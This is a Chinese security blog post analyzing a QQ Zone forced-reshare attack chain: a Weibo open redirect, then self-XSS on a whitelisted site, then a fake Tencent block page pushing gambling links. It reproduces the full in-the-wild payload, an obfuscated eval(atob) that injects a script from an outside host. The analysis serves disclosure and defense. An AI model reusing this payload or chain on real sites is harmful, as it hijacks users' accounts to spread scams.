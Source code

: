 ```yaml
---
title: QQ空间流氓转发分析
abbrlink: 6862
date: 2019-09-03 16:53:47
categories: 网络安全
tags:
- 漏洞分析
---
```


*本文原发于先知社区 <https://xz.aliyun.com/t/6238> , 博客转自本人仅做备份用途*

## 写在之前

最近遇到多位老哥在骂,qq空间的链接一点就转发了一个封面为色情图片,内容为菠菜站的链接.我就好奇这难道是qq空间的XSS蠕虫?

<!--more-->

BAT关键业务出了xss在9102年也不算小事情了,至少圈内会炸锅.但是一直没消息,直到我的好友也遭到了攻击.

好奇之下,抓了个包分析.发现这是个有趣的攻击链,至少我没见过这种攻击方式.由一系列漏洞组成.

中间一段时间忘了这事,前两天翻到给微博src提交的漏洞被打回.

![1](1.png)

最后一部分转发的截图和代码忘了保留,见谅.不过这也是一个有趣的绕过qq安全机制的案例.

(貌似之前看到过有人写过分析了,昨天去找的时候又没找到,于是我又自己分析了一遍)



## 分析

### payload

```
https%3A%2F%2Fweibo.cn%2Fsinaurl%3F_wv%3D1027%26cmd%3Dplay%26u%3Dhttps%253A%252F%252Fwww.whitedomin.com%252Fmember%252Findex.php%253Fgourl%253D%25252F%25252Fst.duanwenxue.com%25252Fpost-624.html%252522%25257d%252529%25257d%25252bwindow%25255b%252522eval%252522%25255d%252528atob%252528%252522ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%252522%252529%252529%25252bfunction%252528%252529%25257b%2524.post%252528%25257b1%253A%252522%2526r%253D1561387991%2526business%253D%2523123
```

一步一步来分析.

### 微博任意url跳转

已经提交给微博并被驳回,因此公开应该没什么问题.

测试一下,将payload填到浏览器并用bp抓包,可以看到

![1](2.png)

follow redirection 302跳转到了某白名单网站的网站

### 某白名单网站self-xss

(虽然该漏洞已修复,但还是抹去相关信息)

qq空间的分析链接是有验证的,虽然不知道具体验证机制,但是大致可以猜到是白名单验证.微博显然在白名单内,而且如果是302跳转会迭代验证,直到非302响应状态码.

因此还需要个存在xss漏洞在白名单内的网站.

因此黑产找了一个存在get请求的self-xss的网站,并且通过js再次进行跳转绕过检测机制.

![1](3.png)

```
https://www.whitedomin.com/member/index.php?gourl=%2F%2Fst.whitedomin.com%2Fpost-624.html%22%7d%29%7d%2bwindow%5b%22eval%22%5d%28atob%28%22ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%22%29%29%2bfunction%28%29%7b$.post%28%7b1:%22&r=1561387991&business=#123
```

xss漏洞存在于该网站站内跳转的gourl参数,再次经过302跳转后同时指向了self-xss的js代码.

```
"})}+window["eval"](atob("ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp"))+function(){$.post({1:"&r=1561387991&business=#123
```

base64解码:

`document.write("<script src='https://img.dafeiblog.com/web/if.php'></script>")`

可以看到,再次跳转向了第三方的网站,绕过了腾讯的检测机制.

### 恶意域名执行转发

(因为当时在hw,只抽了几分钟大致看了一下,以为保留了该页面的恶意js代码,后来找的时候发现并没有,抱歉)

(所以这一部分主要根据我的记忆以及猜想)

该恶意网站伪造了腾讯拦截页面.

![1](4.png)

因为腾讯的拦截页面并不显示url,所以普通用户很难发现是伪造的.

该页面下镶嵌有恶意js代码,只有30-40行,大致是两个XHR请求的函数.

猜测功能应该是跳转到博彩网站,以及请求腾讯空间转发接口.

这时候手机端按返回键回到qq空间,就会有个弹窗,提示是否转发.选择不转发还会跳出来,强行结束qq进程才能停止弹窗.

听说低qq版本或是低安卓版本没有这个提示框,会直接转发,(我并没有验证过)

## 小结

利用链是这样的:

微博任意url跳转 --- 其他白名单内网站self-xss --- 跳转至恶意网站执行恶意js 

这种绕过方法算是self-xss的新用法,用作绕过某些存在分享内容安全检测的应用.(至少我没见过)

因为恶意网站js代码没有保存.因此并不知道是如何实现的qq空间转发功能以及无限循环转发弹窗.

因为过程中并没有传输用户相关信息,只能猜测是qq提供了转发的api以供第三方应用调用,导致被黑产利用.

可以参考下这两篇较早的文章,虽然利用思路完全不一样.

<https://www.freebuf.com/vuls/75711.html>

<https://www.freebuf.com/column/144879.html>